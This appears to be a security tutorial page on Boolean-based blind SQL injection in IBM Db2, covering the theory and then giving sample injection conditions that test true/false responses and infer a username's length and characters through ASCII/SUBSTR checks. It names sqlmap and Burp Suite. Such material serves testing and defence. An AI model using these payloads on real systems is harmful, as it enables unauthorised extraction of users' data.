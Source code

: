 ```yaml
---
title: Boolean-based Blind SQL Injection in IBM Db2
description: Explore Boolean-based Blind SQL Injection techniques to extract data
  using conditional logic in IBM Db2 databases.
keywords:
- Boolean-based blind
- SQL injection
- IBM Db2
- conditional logic
- data extraction
- boolean logic
- vulnerability
- sensitive data
- application behavior
---
```


# Boolean-based Blind

## Context

This article explores the technique of exploiting Boolean-based Blind SQL Injection within IBM Db2 databases. By leveraging SQL's Boolean logic, it is possible to extract data from a database one bit at a time, based on the application's response to true or false conditions. This method is particularly useful when the application does not return any output directly, making traditional SQL injection techniques ineffective. To gain the most from this article, readers should have a background in SQL syntax, understand Boolean logic, be familiar with HTTP requests, and have prior knowledge of Db2 Blind SQL Injection.

## Theory

### Boolean Logic in SQL

Boolean logic in SQL uses conditional statements to manipulate the execution of SQL queries. When a query is executed, Boolean conditions evaluate to either true or false, which can affect the query's outcome. In the context of SQL injection, an attacker can input these conditions to verify if certain information exists or to extract specific data by interpreting the true/false evaluation.

### Exploiting Conditional Responses

Boolean-based Blind SQL Injection exploits conditional responses of the application. A successful attack begins with injecting a condition that is always true (such as `1=1`) and observing the application's behavior. If the application responds differently when changing the injected condition from true to false, it indicates a potential vulnerability. By carefully crafting conditions that evaluate data properties, attackers can extract sensitive information based on patterns in the application’s responses.

### Data Extraction through Boolean Conditions

Data extraction through Boolean conditions involves using successive queries to infer information one piece at a time. Attackers can determine aspects such as the length of data fields or specific values by injecting queries that evaluate the truth of various conditions. Changes in application behavior indicate correctness of these guesses, allowing attackers to piece together sensitive data by employing logical testing across multiple injections.

## Practice

### Boolean-based Blind SQL Injection

Boolean-based Blind SQL Injection can be manually executed by crafting SQL queries that infer data from true/false conditions. Here is how to perform this technique effectively:

- **Verify Vulnerability with True Condition**
  ```bash
  SELECT * FROM users WHERE id = 1 AND 1=1 -- 
  ```
  Execute this query to test if a known true condition results in a typical application response, confirming that the input is being evaluated.

- **Confirm Vulnerability with False Condition**
  ```bash
  SELECT * FROM users WHERE id = 1 AND 1=2 -- 
  ```
  This basic false condition should lead to a different response. If the application's behavior changes, further exploitation may be possible.

- **Extract Data by Checking Length of Username**
  ```bash
  SELECT * FROM users WHERE id = 1 AND (SELECT LENGTH(username) FROM users WHERE id=1)=5 -- 
  ```
  Use this query to determine if the username associated with `id=1` consists of 5 characters, based on the application's response.

- **Identify Specific Character of Username**
  - **Check First Character:**
    ```bash
    SELECT * FROM users WHERE id = 1 AND (SELECT ASCII(SUBSTR(username,1,1)) FROM users WHERE id=1)=65 -- 
    ```
    This query verifies if the first character is 'A' (ASCII value 65).

  - **Check Second Character:**
    ```bash
    SELECT * FROM users WHERE id = 1 AND (SELECT ASCII(SUBSTR(username,2,1)) FROM users WHERE id=1)=66 -- 
    ```
    This query checks if the second character is 'B' (ASCII value 66).

Through these queries, sensitive data is extracted by deducing values based on true/false evaluations.

## Tools

- **sqlmap**
- **Burp Suite** 

These tools can automate finding and exploiting Boolean-based Blind SQL Injections, quickly assessing vulnerabilities and extracting data efficiently.